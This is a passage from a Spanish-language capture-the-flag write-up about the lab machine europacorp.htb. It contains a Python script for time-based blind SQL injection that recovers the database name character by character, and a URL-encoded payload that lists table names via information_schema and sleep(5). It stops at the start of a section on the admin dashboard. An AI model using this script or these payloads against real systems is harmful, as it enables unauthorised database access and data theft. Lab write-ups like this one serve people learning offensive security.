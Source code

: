 ```python
	for ascii_code in ascii_alphabetic:
	
		payload = template_payload.format(position=position, ascii_code=ascii_code)
		startTime = time.time()
		response = https.request("POST", url=target_url, redirect=False, body=payload, headers={"Content-Type" : "application/x-www-form-urlencoded"})
		elapsedTime = time.time() - startTime
		
		if elapsedTime >= 5:
			return chr(ascii_code)
			
	return None

def buildName():
	data = ""
	position = 1

	while True:
		character = sqliBlind(position)
		if character is None:
			break

		data+=character
		position+=1

	return data

if __name__ == '__main__':
	print("\n[+] Iniciando Enumeracion de la base de datos.....\n")
	data = buildName()
	print(f"[+] El nombre de la base de datos es: {data}\n")
	
# PD: Don`t be a pussy and do it manually
```

**Enumeración de Tablas en la Base de Datos**

Después de obtener el nombre de la base de datos, podemos listar los nombres de las tablas en dicha base empleando la siguiente consulta SQLi ciega:

```bash
e-mail=admin%40europacorp.htb' and if(ascii(substr((select table_name from information_schema.tables where table_schema=%27admin%27 limit 1 offset 0),2,1))=115,sleep(5),1)-- -&password=dfsafd
```

Si la consulta tarda mas de 5 segundos, confirma que el caracter que al que apunta la consulta es correcto y confirmaria la existencia de una tabla que lleva dicho caracter como nombre en cierta posicion.

---

**Análisis del Panel de Administración**

Dentro del panel de administración (**dashboard.php**) encontramos una interfaz con poca interactividad:
